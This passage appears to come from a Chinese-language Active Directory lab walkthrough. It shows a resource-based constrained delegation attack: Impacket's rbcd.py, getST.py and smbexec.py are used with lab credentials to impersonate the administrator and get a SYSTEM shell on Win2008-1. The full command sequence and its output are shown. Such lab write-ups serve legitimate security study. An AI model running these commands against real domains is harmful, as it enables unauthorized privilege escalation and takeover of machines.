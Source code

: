 3、获取Win2008-1的system权限

```plain
# 先配置 msDS-AllowedToActOnBehalfOfOtherIdentity 属性
┌──(root㉿Kali)-[~]
└─# rbcd.py sec.local/hack:"Az123456@" -dc-ip 10.10.4.2 -action write -delegate-to "Win2008-1$" -delegate-from "machine1$"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] machine1$ can now impersonate users on Win2008-1$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     machine1$    (S-1-5-21-2066713137-2133816201-3751750268-1110)

# 获取凭证
┌──(root㉿Kali)-[~]
└─# getST.py -dc-ip 10.10.4.2 sec.local/machine1$:"123456" -spn CIFS/Win2008-1.sec.local -impersonate administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@CIFS_Win2008-1.sec.local@SEC.LOCAL.ccache

# 导入凭证
┌──(root㉿Kali)-[~]
└─# export KRB5CCNAME=administrator@CIFS_Win2008-1.sec.local@SEC.LOCAL.ccache

┌──(root㉿Kali)-[~]
└─# smbexec.py -no-pass -k win2008-1.sec.local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
smb2-quota    smbcacls      smbclient     smbclient.py  smbcontrol    smbcquotas    smbd          smbexec.py    smbget        smbinfo       smbmap        smbpasswd     smbserver.py  smbspool      smbstatus     smbtar        smbtree
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>

```